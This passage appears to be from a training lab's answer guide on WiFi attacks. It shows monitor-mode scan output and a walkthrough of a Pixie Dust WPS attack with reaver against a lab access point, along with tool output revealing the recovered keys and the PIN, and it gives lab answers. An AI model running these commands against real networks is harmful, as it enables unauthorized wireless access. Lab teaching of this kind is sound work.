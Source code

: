```
root@WiFiIntro:/home/wifi# ifconfig mon0 up

 CH 14 ][ Elapsed: 12 s ][ 2024-11-04 12:46 

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH WPS                ESSID

 C2:56:02:94:8F:3E  -28       99        0    0   1   54   WPA2 CCMP   PSK  2.0 LAB,DISP,KPAD  {hidden}                  

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 (not associated)   02:00:00:00:01:00  -29    0 - 6      0       15 
```

Answer: `HackTheWifi`

# The Pixie Dust Attack

## Question 2

### "Perform the Pixie Dust attack on the WiFi network. What is the WPS PIN for this network?"

Students will reuse the previously established RDP session. They are going to use `reaver` to perform a pixie dust attack using the MAC address of the previously found network to obtain the WPS pin:

Code: shell

```shell
reaver -K 1 -vvv -b C2:56:02:94:8F:3E -c 1 -i mon0
```

```
root@WiFiIntro:/home/wifi# reaver -K 1 -vvv -b C2:56:02:94:8F:3E -c 1 -i mon0

Reaver v1.6.5 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>

[+] Switching mon0 to channel 1
[+] Waiting for beacon from C2:56:02:94:8F:3E
[+] Received beacon from C2:56:02:94:8F:3E
WPS: A new PIN configured (timeout=0)
WPS: UUID - hexdump(len=16): [NULL]
WPS: PIN - hexdump_ascii(len=8):
     31 32 33 34 35 36 37 30                           12345670        
WPS: Selected registrar information changed
WPS: Internal Registrar selected (pbc=0)

<SNIP>

 Pixiewps 1.4

 [?] Mode:     1 (RT/MT/CL)
 [*] Seed N1:  0x10b303cb
 [*] Seed ES1: 0x00000000
 [*] Seed ES2: 0x00000000
 [*] PSK1:     fe2ee4379a7cf93db2c3f7101ea9781a
 [*] PSK2:     396d1d2c79d2288b1b5c3b24bf109c89
 [*] ES1:      00000000000000000000000000000000
 [*] ES2:      00000000000000000000000000000000
 [+] WPS pin:  {hidden}

 [*] Time taken: 0 s 15 ms
```